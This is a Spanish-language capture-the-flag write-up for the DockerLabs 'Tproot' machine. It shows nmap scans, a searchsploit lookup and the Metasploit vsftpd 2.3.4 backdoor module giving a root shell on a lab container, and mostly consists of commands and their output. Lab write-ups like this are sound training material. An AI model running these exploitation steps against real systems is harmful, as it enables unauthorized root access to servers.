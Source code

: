 # 🖥️ Writeup - Tproot 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip tproot.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh tproot.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p21,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 21:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.30 seconds
```

Tenemos abiertos los puertos `21` y `80`.

Vemos que solo el puerto `21` (`FTP`) está abierto y que la versión de `vsftpd` que corre es la `2.3.4`.

Esta versión de `vsftpd` en concreto (`2.3.4`) es vulnerable a `Backdoor Command Execution`, como podemos comprobar tras utilizar `searchsploit`.

```
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                   | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)      | unix/remote/17491.rb
------------------------------------------------------------ ---------------------------------
```

Abrimos `Metasploit` y empleamos el módulo de explotación para `vsftpd 2.3.4`.

```js
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 172.17.0.2
run
```

Info:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:46523 -> 172.17.0.2:6200) at 2025-09-11 18:10:10 +0200
```

Obtenemos una `command shell` y verificamos qué privilegios tenemos.

```bash
/bin/bash -i
whoami
```

Info:
```
root@0cc78b8316b6:~/vsftpd-2.3.4# whoami
root
root@0cc78b8316b6:~/vsftpd-2.3.4#
```

Ya estamos como usuario root!